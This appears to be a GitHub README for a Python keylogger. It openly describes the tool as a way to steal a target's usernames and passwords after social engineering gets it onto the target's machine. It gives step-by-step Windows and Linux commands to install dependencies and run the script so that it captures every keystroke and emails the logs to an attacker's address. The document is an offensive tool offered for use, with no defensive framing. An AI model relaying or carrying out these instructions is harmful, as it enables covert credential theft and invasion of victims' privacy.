 Keylogger is a tool that helps you when you try to capture your target's keystrokes on his/her keyboard. You can use it as a Username-Password hijacking tool when you upload this program as a executable file (via social engineering) to your target's machine.

USAGE: 

       1-) FOR WINDOWS: Open cmd and write this command -> 1-) cd Desktop
       1.2 C:\Users\IEUser\Appdata\Local\Programs\Python\Python310\python.exe -m pip install pynput(First part is your python.exe's location change it properly for            your device python.exe location)      
       1.3-) After you install pynput library, run the KeyLogger with -> C:\Users\IEUser\Appdata\Local\Programs\Python\Python310\python.exe python3 MyKeyLogger.py -m (Keylogger sender E-mail address) -t (Keylogger logs receiver E-mail address) -p (Sender E-mail adress' password)
       1.4-) After that, keylogger will capture all of the keystrokes on the target machine and will send E-mails that contains keystrokes from the target.
       
       2-) FOR LINUX : 1.1-) pip3 install pynput
                       1.2-) cd /root/PycharmProjects/Keylogger
                       1.3-) python3 MyKeyLogger.py -m (Keylogger sender E-mail address) -t (Keylogger logs receiver E-mail address) -p (Sender E-mail adress'                                    password)
                       1.4-) If you have any problem in LINUX do as follows : 
                            sudo apt update
                            sude apt install python3
                            sudo apt-get install python3-dev
                            sudo apt install python3-pip
 
And your program will run without any error.

IMPORTANT NOTE: The first mail on the receiver e-mail will be empty. Ignore it, the second mail will come after 30 seconds and will contain the keylogs of the target machine.
                            
                            
       
